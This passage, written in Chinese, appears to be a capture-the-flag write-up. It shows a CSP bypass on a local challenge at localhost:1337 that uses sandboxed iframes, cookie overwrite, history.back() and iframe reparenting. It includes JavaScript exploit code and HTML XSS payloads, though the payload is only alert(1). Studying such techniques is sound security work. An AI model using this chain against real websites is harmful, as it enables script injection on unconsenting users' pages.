 第一步，我們先載入一個 sandbox iframe，src 會是我們的 XSS payload：

``` js
const challengeHost = 'http://localhost:1337'

const xssPayload = `<script>alert(1)<\/script>`
const payload = `<iframe sandbox="allow-same-origin" src="/memo?memo=${xssPayload}">`
const win = window.open(`${challengeHost}/memo?memo=` + payload)
```

此時這個 win 的內容就會是：

``` html
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
  <iframe srcdoc='
    <iframe
      sandbox="allow-same-origin"
      src="/memo?memo=<script>alert(1)</script>">
    </iframe>
  '>
  </iframe>
</body>
```

如果更放大一點來看那個 sandbox iframe 的話，這個 iframe 裡面的內容是：

``` html
<head></head> <!-- 空的 head，沒有 CSP -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```

由於 sandbox 的緣故，因此 script 不會執行，所以不會有 CSP。但也因為 sandbox，所以 srcdoc 裡的 script 也同樣不會執行。

接著我們把網頁跳到其他頁面，然後開啟 `/memo?memo=<iframe></iframe>`，這時候 cookie 中的內容會被取代掉。

再利用 `history.back()` 回去，此時如同前面所講的，網頁會重新載入，因此網頁的 HTML 變成：


``` html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
    <iframe srcdoc='
        <iframe></iframe>
    '>
    </iframe>
</body>
```

雖然看起來是空的，但因為之前講過的 reparenting 行為，因此那個空的 iframe 的內容，會是上次的 `/memo?memo=<script>alert(1)</script>`。

接著，又因為之前講過的：「sandbox 屬性永遠跟著現在的頁面」的特性，現在這個 iframe 的 sandbox 沒了。既然 sandbox 沒了，那內容就變成：

``` html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```
